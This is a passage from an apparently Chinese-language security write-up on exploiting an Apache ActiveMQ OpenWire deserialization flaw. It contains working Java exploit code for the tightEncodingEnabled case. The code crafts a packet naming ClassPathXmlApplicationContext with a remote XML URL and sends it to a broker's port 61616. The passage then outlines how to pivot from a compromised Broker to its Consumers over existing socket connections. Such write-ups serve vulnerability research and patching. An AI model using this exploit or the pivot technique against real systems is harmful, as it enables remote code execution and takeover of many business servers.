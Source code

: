 很明显如果目标启用了tightEncodingEnabled的话，上面的攻击代码肯定需要修改。经过测试发现默认Broker未打开该配置，Consumer打开该配置。

这里也给出tightEncodingEnabled场景下，攻击Broker的利用代码

```java
ByteArrayOutputStream bos = new ByteArrayOutputStream();
DataOutput dataOutput = new DataOutputStream(bos);
dataOutput.writeInt(0);
dataOutput.writeByte(31);

BooleanStream bs = new BooleanStream();
bs.writeBoolean(true);
bs.writeBoolean(true);
bs.writeBoolean(true);
bs.writeBoolean(false);
bs.writeBoolean(true);
bs.writeBoolean(false);

bs.marshal(dataOutput);

dataOutput.writeUTF("bb");
dataOutput.writeUTF("aa");

dataOutput.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
dataOutput.writeUTF("http://localhost:8000/abcd");

bos.flush();

Socket socket =new Socket("127.0.0.1", 61616);
OutputStream socketOutputStream = socket.getOutputStream();
socketOutputStream.write(bos.toByteArray());
socketOutputStream.close();
```

# [](#%E6%94%BB%E5%87%BBConsumer "攻击Consumer")攻击Consumer

写完Broker的利用后，又开始思考是否能对Consumer进行攻击，因为漏洞是出现在反序列化阶段的，按理来说Consumer也会存在该漏洞的。且通常来说，Consumer才是部署业务的机器会比起Broker更加核心，通常一个Broker中会接入多个Consumer，如果能控制Consumer那么很可能一次性能控制大量业务机器。但是Consumer在实际使用中，并不会监听端口，那么怎么来给消费者发送恶意数据呢。

ActiveMQ有两种常用的消息模型，点对点、发布/订阅模式。无论是哪种模式，在实际业务中为了持续消费，通常会设置一个监听器，同时让消费者和Broker保持长链接。那么思路就有了，在控制了Broker后，获取到Broker和消费已建立的Socket链接，给消费推恶意数据进行反序列化按理是可以实现利用的。

所以首先要找到已经ESTABLISH的Socket链接  
org.apache.activemq.broker.BrokerRegistry#getInstance

```java
public class BrokerRegistry {
    private static final Logger LOG = LoggerFactory.getLogger(BrokerRegistry.class);
    private static final BrokerRegistry INSTANCE = new BrokerRegistry();
    private final Object mutex = new Object();
    private final Map<String, BrokerService> brokers = new HashMap();

    public BrokerRegistry() {
    }

    public static BrokerRegistry getInstance() {
        return INSTANCE;
    }
```
